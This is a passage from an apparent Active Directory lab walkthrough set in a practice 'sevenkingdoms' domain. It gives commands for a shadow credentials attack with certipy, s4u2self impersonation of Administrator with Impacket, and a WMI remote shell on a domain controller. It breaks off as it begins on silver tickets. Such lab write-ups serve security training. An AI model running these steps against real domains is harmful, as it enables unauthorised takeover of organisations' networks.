 - Shadow credentials is now include with certipy (this attack can also be done with [pywisker](https://github.com/ShutdownRepo/pywhisker) )
    
```
certipy-ad shadow auto -u stannis.baratheon@sevenkingdoms.local -p 'Drag0nst0ne' -account 'kingslanding$'
```
![screenshot](pics/shadow_stanislav.png)


- Now we got the tgt and the NT hash of kingslanding$
- Obviously we can do a dcsync because kingslanding is a DC, but instead let’s try to directly get a shell
    
- To do that the easiest way is using s4u2self abuse or create a silver ticket

### machine account to administrator shell

#### s4u2self abuse

- s4u2self abuse : we ask for a TGS as the Administrator domain user

```
export KRB5CCNAME=/workspace/acl/kingslanding.ccache
getST.py -self -impersonate "Administrator" -altservice "cifs/kingslanding.sevenkingdoms.local" -k -no-pass -dc-ip 192.168.56.10 "sevenkingdoms.local"/'kingslanding$'
```

- And than we use that ticket to connect as administrator

```
export KRB5CCNAME=/workspace/acl/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

#### Silver ticket
- Another way to get a shell is by creating a silver ticket :
    
- Find the domain SID:
    